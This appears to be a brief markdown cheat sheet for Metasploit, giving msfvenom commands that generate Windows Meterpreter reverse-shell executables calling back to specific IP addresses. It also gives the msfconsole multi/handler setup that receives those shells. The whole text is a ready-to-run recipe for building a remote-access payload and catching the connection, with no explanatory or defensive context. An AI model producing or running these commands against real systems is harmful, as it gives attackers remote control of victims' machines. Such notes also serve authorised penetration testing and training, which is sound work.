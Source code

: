 # Msfvenom
Create with:
'''
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=172.16.14.112 LPORT=443 -b "\x00" -f exe -o shell.exe
msfvenom --platform Windows -p windows/meterpreter/reverse_https HttpProxyUser=* HttpProxyPass=* LHOST=77.99.55.98 LPORT=444 -b "\x00" -f exe -o shell.exe
'''

```
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
windows/meterpreter/reverse_tcp
set lhost 192.168.1.123
set lport 4444
exploit -j
```
